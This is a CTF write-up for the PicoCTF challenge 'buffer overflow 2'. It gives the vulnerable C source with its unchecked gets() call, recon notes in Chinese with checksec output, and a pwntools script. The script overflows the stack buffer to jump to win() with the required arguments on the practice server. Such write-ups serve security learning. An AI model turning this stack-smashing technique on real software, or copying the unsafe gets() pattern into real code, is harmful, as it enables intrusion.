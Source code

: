 ```yaml
---
title: PicoCTF - buffer overflow 2
tags: [PicoCTF, CTF, PWN]

category: "Security/Practice/PicoCTF/PWN"
---
```


# PicoCTF - buffer overflow 2
<!-- more -->

## Background
Bof

## Source code
:::spoiler Source Code
```cpp=
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}


```
:::

## Recon
寫這一題的心境變化真的很有趣，一開始看直覺很簡單，就基礎的return 2 function就結束了，不過看到還要處理calling convention的問題就有點燒腦，首先我一開始的想法是控制edi和esi的數值過掉她的checking，直覺就是用rop之類的東西，不過這隻程式本身能用的gadget少的可憐，如果要用到libc本身的gadget就必須要克服aslr的base address，想到這邊頭就開始痛了，無論如何先用gdb跟一下，發現檢查的argument就在ebp+0x8和ebp+0x10的地方，這就代表離原本的bof不遠，所以試看看能不能延伸bof的內容，果然事情比我想像中的簡單，需要注意的地方是payload中return win function的部分不能馬上接checking payload，因為執行的過程中0xcafefood會被蓋掉，所以中間需要加一個dummy value
```bash!
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a429aa852db1511dec3f0143d93e5b1e80e4d845, for GNU/Linux 3.2.0, not stripped
$ checksec vuln
[*] '/mnt/d/NTU/CTF/PicoCTF/PWN/buffer overflow 2/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## Exploit
```python=
from pwn import *

r = remote('saturn.picoctf.net', 50995)
# r = process('./vuln')
context.arch = 'amd64'

r.recvline()

r.sendline(b'a' * 0x70 + p32(0x8049296) + p32(0) + p32(0xCAFEF00D) + p32(0xF00DF00D))

r.interactive()
```